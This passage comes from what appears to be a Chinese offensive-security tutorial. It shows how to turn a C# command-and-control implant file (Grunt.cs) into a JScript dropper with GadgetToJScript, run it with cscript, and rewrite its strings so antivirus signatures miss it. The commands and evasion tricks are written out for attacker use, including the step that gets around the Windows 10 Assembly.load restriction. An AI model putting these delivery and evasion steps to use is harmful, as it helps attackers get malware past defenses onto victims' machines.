 ```php
1、System.Linq;

2、System.IO.Pipes;
```

它们在System.Core.dll里，所以调用的时候我们需要手动添加System.Core.dll，在命令行输入：

```php
GadgetToJScript.exe -w js -f Grunt.cs -d System.Core.dll -o matrix

-w 是输出文件的格式
-d 是需要添加的dll，如果有多个可以用逗号隔开
-f 是我们引入的csharp文件，这里我们选择刚才的 grunt.cs 测试
-o 是输出的文件名
然后我们会得到名为matrix.js的文件，打开matrix.js文件。
```

![image-20211119221843448](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-472bd1431aeb7812eeef142307f731b1ba537413.png)

分析一下这个js文件

```php
stage_1:为了绕过Win10中对Assembly.load的限制
stage_2:加载的核心程序集
```

![image-20211119221910019](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b8875560a82777a3d3d666fbd559215c9cc6d518.png)

测试js文件，运行

```php
cscript matrix.js
```

JS文件的混淆免杀Tips
-------------

杀软一般标记的是变量名、字符串

1.针对字符串，可以把双引号和单引号去掉

比如

```php
原先
("aaa")

转换成
(/aaa/.source)
```

2.针对一些转义问题

原先 双引号中的`\\`就要替换成`\`

举例

```php
原先的路径
("D:\\7-Zip\\1\\")

转换成
(/D:\7-Zip\1/.source + '\\')
```
